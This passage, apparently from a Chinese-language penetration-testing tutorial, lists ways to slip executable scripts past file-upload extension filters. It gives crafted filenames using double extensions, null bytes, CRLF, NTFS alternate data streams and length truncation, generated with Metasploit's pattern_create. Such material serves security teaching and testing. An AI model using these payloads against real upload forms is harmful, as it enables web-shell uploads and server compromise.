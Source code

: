 4.尝试添加加倍扩展或者扩展之间添加空字节，等技术来绕过欺骗服务器端扩展解析器的保护。还可以使用以前的扩展来准备更好的Payload。

```
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
```

5.在之前的检查基础上再增加一层扩展

```
file.png.jpg.php
file.php%00.png%00.jpg
```

6.可将执行脚本扩展名放入有效扩展名之前(看服务器配置有没有错误，运气问题，对于利用Apache错误配置很有用)

```
例如：file.php.png
```

7.在Windows中使用NTFS备用数据流(ADS) 在这种情况下插入一个冒号符号":"比如服务器禁止带有扩展名的空文件下

```
例如 file.asax:.jpg
也可以使用::$data 模式也可用于创建非空文件
例如 file.asp::$data
```

8.尝试打破文件名限制，有效的文件名被切断，恶意的PHP就留下来了。AAA<--SNIP-->AAA.php

```
# Linux 最大字节为255字节,利用metasploit脚本生成
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # 在这里减去4字节 并加入 .png

# 上传文件并检查响应允许的字符数。比方说236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# 制作有效Payload，前面是232个字节A剩下4个位置
AAA<--SNIP 232 A-->AAA.php.png
```

关于在Windows中使用NTFS 备用数据流 (ADS)可以参考这篇文章

```
https://www.cnblogs.com/zUotTe0/p/13455971.html
```



## 绕过内容类型、文件头
